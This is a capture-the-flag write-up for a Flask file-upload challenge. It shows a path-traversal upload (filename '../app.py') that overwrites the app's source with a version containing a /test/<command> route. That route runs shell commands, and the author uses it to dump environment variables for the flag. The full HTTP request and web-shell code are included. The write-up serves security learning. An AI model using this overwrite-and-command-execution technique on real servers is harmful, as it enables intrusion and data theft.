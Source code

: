 # WxMCTF Web 3 - NFTs
> Seize the means of minting!

## About the Challenge
We have been given a web source code (You can download the source code [here](dist.zip)) and we can start an instance too. Here is the preview of the website

## How to Solve?
There are 2 functionality on the website, we can upload some file to the website and then we can access the file in `nfts` endpoint. Pretty simple right? If we check the `launch.sh` file
```sh
#!/bin/sh
gunicorn -w 1 -b 0.0.0.0:5000 --reload app:app
python -m http.server 5000
```

The gunicorn will restart if there is a code change in the source code. And because there is no restriction at all on the upload feature

```python
from flask import Flask, request, render_template, redirect, flash, make_response
from flask import send_from_directory
import os

app = Flask(__name__)
app.secret_key = os.urandom(16)

@app.route("/", methods=['GET', 'POST'])
def index():
    if request.method == 'POST':
        if 'file' not in request.files:
            flash('No file part')
            return redirect(request.url)
        file = request.files['file']
        if file.filename == '':
            flash('No selected file')
            return redirect(request.url)
        if file:
            file.save(os.path.join("./nfts/", file.filename))
            return redirect(request.url)

    return render_template('index.html')

@app.route('/nfts')
def browse_nfts():
    nfts = os.listdir("nfts")
    return render_template('nfts.html', nfts=nfts)

@app.route('/nft/<name>')
def send_nft(name):
    return send_from_directory("nfts", name, mimetype="application/octet-stream", as_attachment=True)
```

The idea here is you need to update the source code called `app.py` and add a malicious code. If you can see the HTTP request below, i added an endpoint called `test` to run an OS command

```
POST / HTTP/1.1
Host: 59db0cc.678470.xyz
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/110.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------263566758113396374204204538370
Content-Length: 1456
Origin: http://59db0cc.678470.xyz
Connection: close
Referer: http://59db0cc.678470.xyz/
Upgrade-Insecure-Requests: 1

-----------------------------263566758113396374204204538370
Content-Disposition: form-data; name="file"; filename="../app.py"
Content-Type: application/octet-stream

from flask import Flask, request, render_template, redirect, flash, make_response
from flask import send_from_directory
import subprocess,os

app = Flask(__name__)
app.secret_key = os.urandom(16)

@app.route("/", methods=['GET', 'POST'])
def index():
    if request.method == 'POST':
        if 'file' not in request.files:
            flash('No file part')
            return redirect(request.url)
        file = request.files['file']
        if file.filename == '':
            flash('No selected file')
            return redirect(request.url)
        if file:
            file.save(os.path.join("./nfts/", file.filename))
            return redirect(request.url)

    return render_template('index.html')

@app.route('/nfts')
def browse_nfts():
    nfts = os.listdir("nfts")
    return render_template('nfts.html', nfts=nfts)

@app.route('/nft/<name>')
def send_nft(name):
    return send_from_directory("nfts", name, mimetype="application/octet-stream", as_attachment=True)

def run_command(command):
    return subprocess.Popen(command, shell=True, stdout=subprocess.PIPE).stdout.read()

@app.route('/test/<command>')
def command_server(command):
    return run_command(command)
-----------------------------263566758113396374204204538370--
```

After sending the request, I wait 1 sec and then I access `http://example/test/env` to get the flag because the flag is located on the environtment

```
Because the instance was dead, there is no flag here
```